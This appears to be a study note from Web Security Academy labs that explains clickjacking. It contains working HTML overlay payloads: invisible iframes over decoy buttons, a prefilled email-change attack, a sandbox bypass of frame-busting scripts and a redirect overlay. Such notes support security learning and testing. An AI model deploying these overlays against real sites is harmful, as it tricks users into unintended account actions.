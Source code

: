 ## What is clickjacking?
Clickjacking is creating a malicious website that contains a vulnerable website in an iframe, with the contents of that iframe laid beneath a social-engineering tactic to get the user that has an account on the vulnerable website to click it, to perform a malicious action on be-half of the attacker. The iframe of the vulnerable website has an opacity of 0, and because the user should be signed in with cookies, the overlaid malicious website will craft HTML to manipulate the victim to click it. ^fda329
##### ***Basic clickjacking attack***
There is a form with a CSRF token on the vulnerable website. Lay a website over the top and position it as index of 1 with the vulnerable website being an index of 2, and then make the malicious website display an enticing button that the logged in user will click. Position the malicious website to align with the vulnerable website's sensitive functions/buttons.  
<head>
	<style>
		body {
			margin: 0;
			width: 100%;
                        display: flex; 
                        flex-direction: column;
			overflow-y: hidden;
		}
		#target_website {
			position: relative;
			width: 100%;
			height: 100%;
			z-index: 2;
			box-sizing: border-box;
			border: none;
opacity: 0%;
			overflow: hidden;
		}
		#decoy_website {
			position: absolute;
			width: 100%;
			height: 100%;
			overflow: hidden;
			z-index: 1;
			border: 0;
		}
	</style>
</head>
```
<head>
	<style>
		#target_website {
			position:relative;
			width:100%;
			height:100%;
			opacity:0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
			}
	</style>
</head>
<body>
	<div id="decoy_website">
	<button style="position: absolute; left: 85px; top: 490px; border: 1px solid red; margin: auto; height: 20px; width: 60px;">click</button>
	</div>
	<iframe id="target_website"  scrolling="no" frameborder="0" src="https://0a00000103d28cc282310bd8004300b4.web-security-academy.net/my-account">
	</iframe>
</body>
```
##### ***Clickjacking with prefilled form input***
Some times websites will have a form that takes values from a URL as GET parameters. You can exploit this by adding your values to the query string, then create an exploit server with an overlay that makes the victim submit the form with the values from the URL. There was an issue with the button not being able to be clicked through into the iframe, adding `pointer-events: none;` seems to have fixed it.
```
<head>
	<style>
		#target_website {
			width: 100%;
			height: 100%;
			z-index: 10;
			box-sizing: border-box;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:11;
			}
		body {
			position: relative;
		}
	</style>
</head>
<body>
	<div id="decoy_website">
	<div style="position: relative; z-index: -1; left: 0; top: 440px; pointer-events: none; border: 1px solid red; margin: auto; height: 20px; width: 60px;">click me</div>
	</div>
	<iframe id="target_website"  scrolling="no" frameborder="0" src="https://0a3d00b5043ac57c8119b6fd004000f4.web-security-academy.net/my-account?email=pwned@gmail.com">
	</iframe>
</body>
```
##### ***Clickjacking with frame busting scripts***
Frame busting scripts are designed to;
- check and enforce that the current application window is the main or top window.
- make all frames visible.
- prevent clicking on invisible frames.
- intercept and flag potential clickjacking attacks to the user.

In order to bypass this, use an iframe with the `sandbox` attribute. When this is set with the `allow-forms` or `allow-scripts` values and the `allow-top-navigation` value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window:
```
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```

Both the `allow-forms` and `allow-scripts` values permit the specified actions within the iframe but top-level navigation is disabled. This inhibits frame busting behaviors while allowing functionality within the targeted site.
##### ***Redirection with clickjacking***
If the victim site is vulnerable to Clickjacking, the attacker could overlay a transparent iframe over some benign functionality on the website. When the user interacts with what they believe is the legitimate site, they would actually trigger the redirection:
```
<iframe src="http://vulnerable-website.com/redirect-to-trusted-subdomain" style="opacity:0;"></iframe>
```